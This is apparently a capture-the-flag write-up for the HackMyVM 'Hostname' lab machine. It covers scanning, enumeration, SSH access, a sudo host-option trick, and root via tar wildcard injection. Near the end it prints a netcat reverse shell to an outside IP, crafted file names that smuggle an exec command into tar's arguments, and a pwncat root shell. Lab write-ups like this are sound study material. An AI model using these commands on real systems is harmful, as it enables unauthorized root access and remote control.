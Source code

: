 ```yaml
---
layout: post
title: "HackMyVM - Hostname"
date: 2022-05-10 15:47:00 +0100
categories: hmv
---
```


Creator: [avijneyam](https://hackmyvm.eu/profile/?user=avijneyam)
Level: Easy
Release Date: 2022-05-04

## Scan

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-10 18:35 WEST
Nmap scan report for 192.168.1.154
Host is up (0.00029s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 27:71:24:58:d3:7c:b3:8a:7b:32:49:d1:c8:0b:4c:ba (RSA)
|   256 e2:30:67:38:7b:db:9a:86:21:01:3e:bf:0e:e7:4f:26 (ECDSA)
|_  256 5d:78:c5:37:a8:58:dd:c4:b6:bd:ce:b5:ba:bf:53:dc (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Panda
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```


## Enumeration

* From Page Source

```html
 <script crossorigin="S3VuZ19GdV9QNG5kYQ==" </script> 
 ```

```bash
$ echo 'S3VuZ19GdV9QNG5kYQ==' | base64 -d 
Kung_Fu_P4nda    
```

### GoBuster

```bash
$ gobuster dir -u http://panda.hmv -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,zip
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://panda.hmv
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,php,txt,zip
[+] Timeout:                 10s
===============================================================
2022/05/10 18:43:38 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 1621]
/assets               (Status: 403) [Size: 153]                                  
===============================================================                                                                                                        
2022/05/10 18:48:02 Finished                                                                                                                                           
===============================================================   
```

## Username

<img src="https://drive.google.com/uc?id=1j7pa8WlQF7AWOYqaxLfla209-epIcfY7"/>

* Disable "po" replace for "Kung_Fu_P4nda"

<img src="https://drive.google.com/uc?id=1EH5c6TJak3yEugmRSRFR92Uq7DGu7xs8"/>

<img src="https://drive.google.com/uc?id=1fWByrtnjexeNV-8IL5tayAo22yiY9_bJ"/>

## Lateral Movement (po > oogway)

```bash
$ ssh po@panda.hmv     
Linux hostname 5.10.0-13-amd64 #1 SMP Debian 5.10.106-1 (2022-03-17) x86_64
po@hostname:~$ 
```

#### SUDO

```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                            
Sudoers file: /etc/sudoers.d/po is readable                                                                                                                            
po HackMyVM = (oogway) NOPASSWD: /bin/bash
```

```bash
po@hostname:/tmp$ echo "po HackMyVM = (oogway) NOPASSWD: /bin/bash" > sudoers

po@hostname:/tmp$ cat sudoers 
po HackMyVM = (oogway) NOPASSWD: /bin/bash

po@hostname:/tmp$ sudo -u oogway -h HackMyVM /bin/bash
sudo: unable to resolve host HackMyVM: Name or service not known

oogway@hostname:/tmp$ 
```

## CRONTAB

```bash
*  *    * * *   root    cd /opt/secret/ && tar -zcf /var/backups/secret.tgz *
```

* pspy64

```bash
2022/05/19 21:08:01 CMD: UID=0    PID=23515  | /usr/sbin/CRON -f 
2022/05/19 21:08:01 CMD: UID=0    PID=23516  | /bin/sh -c       cd /opt/secret/ && tar -zcf /var/backups/secret.tgz * 
2022/05/19 21:08:01 CMD: UID=0    PID=23517  | tar -zcf /var/backups/secret.tgz * 
2022/05/19 21:08:01 CMD: UID=0    PID=23518  | /bin/sh -c gzip 
```

## ROOT - Relative Path with [tar](https://gtfobins.github.io/gtfobins/tar/#sudo)

* If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```bash
payload.sh
nc -e /bin/bash 192.168.1.6 9001
```

```bash
oogway@hostname:/opt/secret$ echo "" > "--checkpoint=1"
oogway@hostname:/opt/secret$ echo "" > "--checkpoint-action=exec=bash payload.sh"
oogway@hostname:/opt/secret$ ls
'--checkpoint=1'  '--checkpoint-action=exec=bash payload.sh'   payload.sh
oogway@hostname:/opt/secret$ 
```

```bash
$ python3 -m pwncat -lp 9001
[03:52:54] Welcome to pwncat 🐈!                                                                                                                        __main__.py:164
[03:58:01] received connection from 192.168.1.154:42082                                                                                                      bind.py:84
[03:58:01] 192.168.1.154:42082: registered new host w/ db                                                                                                manager.py:957
(local) pwncat$                                                                                                                                                        
(remote) root@hostname:/opt/secret# id
uid=0(root) gid=0(root) groups=0(root)
(remote) root@hostname:/opt/secret# 
```
